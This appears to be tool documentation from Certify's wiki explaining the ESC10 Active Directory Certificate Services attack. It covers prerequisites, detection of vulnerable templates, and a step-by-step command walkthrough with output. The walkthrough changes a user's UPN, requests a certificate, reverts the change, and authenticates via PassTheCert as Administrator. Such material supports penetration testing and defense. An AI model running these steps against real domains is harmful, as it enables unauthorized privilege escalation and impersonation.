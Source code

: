 ```yaml
---
title: 'ESC10 - Schannel Weak Certificate Mapping'
description: 'Exploit downgraded Schannel certificate mapping to impersonate users through weak UPN-based certificate authentication'
icon: 'link-slash'
sidebarTitle: 'ESC10'
---
```


ESC10 is a misconfiguration in Windows Secure Channel (Schannel), which stems from insecure management of new security features. Specifically, if the certificate mapping configuration of Schannel is reduced below the standard of *Strong Certificate Mapping*, an attacker can potentially abuse the weak certificate mapping to impersonate arbitrary users in the environment.

<Info>
The misconfiguration was initially disclosed by [Oliver Lyak](https://x.com/ly4k_) in [this blogpost](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7).
</Info>

## Vulnerability Criteria

The following criteria comprise an ESC10 vulnerability:

<Accordion title="ESC10 Prerequisites">
- The Schannel certificate mapping has been downgraded to allow `userPrincipalName` (UPN) mapping.
- We have `GenericWrite` rights on a user or computer object in the environment.

Additionally, we require a certificate template with the following criteria:
- The enterprise CA grants enrollment rights to the attacker-controlled user.
- The certificate template grants enrollment rights to the attacker-controlled user.
- The "manager approval" feature is disabled for the certificate template.
- The "authorized signature" feature is disabled for the certificate template.
- The certificate template defines an Extended Key Usage (EKU) that enables Schannel client authentication:
  - `Client Authentication` (`1.3.6.1.5.5.7.3.2`)
  - `Any Purpose` (`2.5.29.37.0`)
  - `Subordinate CA` (No EKUs)
- The certificate template must define a UPN-mappable or DNS-mappable flag in its `Certificate Name Flag` attribute:
  - `SUBJECT_ALT_REQUIRE_UPN`
  - `SUBJECT_ALT_REQUIRE_SPN` - This flag relies on the `userPrincipalName` attribute, despite the name hinting at SPN.
  - `SUBJECT_ALT_REQUIRE_DNS` - This does not work if the target is a user (as they do not have the `dNSHostName` attribute)
</Accordion>

## Attack Process

The attack scenario consists of the following steps:

<Accordion title="ESC10 Attack Steps">
1. **Temporarily modify a mapping attribute** of the principal to match that of the target principal that we want to impersonate.
   - If the template has the `SUBJECT_ALT_REQUIRE_UPN` flag or the `SUBJECT_ALT_REQUIRE_SPN` flag, the `userPrincipalName` attribute of the attacker-controlled principal must match the `userPrincipalName` or `sAMAccountName` attribute of the target principal.
   - If the template has the `SUBJECT_ALT_REQUIRE_DNS` flag, the `dNSHostName` attribute of the attacker-controlled principal must match the `dNSHostName` attribute of the target principal.

2. **Request a certificate** from the vulnerable template. The issued certificate will contain a Subject Alternative Name (SAN) based on the mapping attribute of our requesting user (which is identical to that of our target principal).

3. **Revert the temporary mapping attribute modification.** The target principal is now the only user in the domain with an attribute that matches the one in our issued certificate.

4. **Authenticate over Schannel** as the impersonated user. This is possible because Schannel ignores the SID security extension in the certificate and the mapping attribute of the certificate matches only our target principal (after we reverted our own changes).
</Accordion>

## Detection

We can search for certificate templates with these conditions using the `enum-templates --filter-client-auth` command from Certify. For more information about the command and its parameters, please refer to the [Command Overview](./1-command-overview) page.

<CodeGroup>
```bash Command
Certify.exe enum-templates --filter-enabled --filter-client-auth --hide-admins
```

```diff Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=corp,DC=local'
[*] Classifying vulnerabilities in the context of built-in low-privileged domain groups.

[*] Listing info about the enterprise certificate authority 'CORP-CA01-CA'

    ...

[*] Certificate templates found using the current filter parameters:

    Template Name                         : User
    Enabled                               : True
    Publishing CAs                        : ca01.corp.local\CORP-CA01-CA
    Schema Version                        : 2
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
+   Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_ALT_REQUIRE_EMAIL, SUBJECT_REQUIRE_EMAIL, SUBJECT_REQUIRE_DIRECTORY_PATH
    Enrollment Flag                       : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
+   Manager Approval Required             : False
+   Authorized Signatures Required        : 0
+   Extended Key Usage                    : Client Authentication, Encrypting File System, Secure Email
    Certificate Application Policies      : Client Authentication, Encrypting File System, Secure Email
    Permissions
      Enrollment Permissions
+       All Extended Rights         : CORP\Domain Users               S-1-5-21-976219687-1556195986-4104514715-513
      Object Control Permissions

Certify completed in 00:00:00.9512699
```
</CodeGroup>

## Exploitation Example

Once we have identified a certificate template that our attacker-controlled user can enroll in, we can perform the weak certificate mapping attack. Since the certificate template contains the `SUBJECT_ALT_REQUIRE_UPN` flag, we must modify the `userPrincipalName` of our attacker-controlled user to match a target principal that we want to impersonate.

<Warning>
Please note that Schannel requires the full `userPrincipalName` format (e.g. `Administrator@corp.local`).
</Warning>

<CodeGroup>
```powershell Step 1: Modify UPN
Set-ADUser -Identity impersonator -UserPrincipalName 'Administrator@corp.local'
Get-ADUser -Identity impersonator
```

```bash Output
DistinguishedName : CN=impersonator,OU=Users,OU=Corp,DC=corp,DC=local
Enabled           : True
GivenName         : impersonator
Name              : impersonator
ObjectClass       : user
ObjectGUID        : 66e9a70c-6603-4199-967d-58be81907c02
SamAccountName    : impersonator
SID               : S-1-5-21-976219687-1556195986-4104514715-1101
Surname           :
UserPrincipalName : Administrator@corp.local
```
</CodeGroup>

We can then request a certificate based on the identified template as the attacker-controlled user and obtain a certificate with a Subject Alternative Name (SAN) that contains the mapping attribute that will link to the target principal (e.g. `Administrator`). This can be done using the `request` command from Certify.

<CodeGroup>
```bash Step 2: Request Certificate
Certify.exe request --ca ca01.corp.local\CORP-CA01-CA --template User
```

```bash Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Request a certificate

[*] Current user context    : CORP\impersonator
[*] No subject name specified, using current context as subject.

[*] Template                : User
[*] Subject                 : CN=impersonator, OU=Users, OU=Corp, DC=corp, DC=local

[*] Certificate Authority   : ca01.corp.local\CORP-CA01-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 1

[*] Certificate (PFX)       :

MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh...

Certify completed in 00:00:03.8732299
```
</CodeGroup>

Once we have obtained the certificate, we can revert our mapping attribute modifications.

<CodeGroup>
```powershell Step 3: Revert UPN
Set-ADUser -Identity impersonator -Clear UserPrincipalName
Get-ADUser -Identity impersonator
```

```bash Output
DistinguishedName : CN=impersonator,OU=Users,OU=Corp,DC=corp,DC=local
Enabled           : True
GivenName         : impersonator
Name              : impersonator
ObjectClass       : user
ObjectGUID        : 66e9a70c-6603-4199-967d-58be81907c02
SamAccountName    : impersonator
SID               : S-1-5-21-976219687-1556195986-4104514715-1101
Surname           :
UserPrincipalName :
```
</CodeGroup>

Now that only the target principal has a mapping attribute that matches the one in the issued certificate, we can authenticate as the target principal by presenting the issued certificate. Since we rely on the weakened mapping settings for Schannel, we will authenticate to LDAPS using [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/).

First, we write the issued certificate to a file (`cert.pfx`).

<CodeGroup>
```powershell Step 4: Save Certificate
[IO.File]::WriteAllBytes("cert.pfx", [Convert]::FromBase64String("MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh..."))
```
</CodeGroup>

Then, we can authenticate over LDAP Schannel with `PassTheCert` and confirm that we have successfully elevated our privileges by impersonating the `Administrator` user.

<CodeGroup>
```bash Step 5: Authenticate via Schannel
PassTheCert.exe --server dc01.corp.local --cert-path cert.pfx --whoami
```

```bash Output
Querying LDAP As : u:CORP\Administrator
```
</CodeGroup>